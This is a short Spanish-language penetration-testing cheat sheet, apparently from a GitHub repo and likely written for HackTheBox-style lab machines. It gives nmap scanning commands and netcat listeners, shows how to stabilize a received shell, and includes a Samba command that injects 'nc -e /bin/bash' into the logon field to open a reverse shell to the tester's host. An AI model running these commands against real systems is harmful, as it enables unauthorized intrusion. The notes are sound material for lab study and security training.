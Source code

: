 # Comandos

Comandos interesantes
======

## Exploración

Todos los puertos, rapido y silencioso
<pre>
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.168.193 -oG allPorts
</pre>
 
Puertos especificos
<pre>
nmap -sCV -p135,139,445,1688,3389,49152,49153,49154,49155,49156,49157 192.168.168.193 -oN targeted
</pre>

## Netcap

Ponernos a la escucha:

<pre>
nc -nlvp 443
</pre>

Si es windows:

<pre>
rlwrap nc -nlvp 444
</pre>

Si es Linux podemos tunear la terminal recibida:

<pre>
scrip /dev/null -c bash
-- CTLR + Z para poner en segundo plano la terminal
stty raw -echo; fg
reset xterm
export TERM=xterm
export shell=bash
stty rows 51 columns 189

</pre>

## Samba
Listar recursos:
<pre>
smbclient -L 10.10.10.3 -N --option="client min protocol=NT1"
</pre>

Conectarnos a un recurso y ejecutar comando:
<pre>
smbclient //10.10.10.3/tmp -N --option="client min protocol=NT1" -c 'logon "/=`nohup nc -e /bin/bash 10.10.14.32 443`"'
</pre>

lo subimos por el ftp anonimo y a la escucha con:

<pre>
nc -nlvp 443
</pre>

Fijarse bien en la IP que conecta.
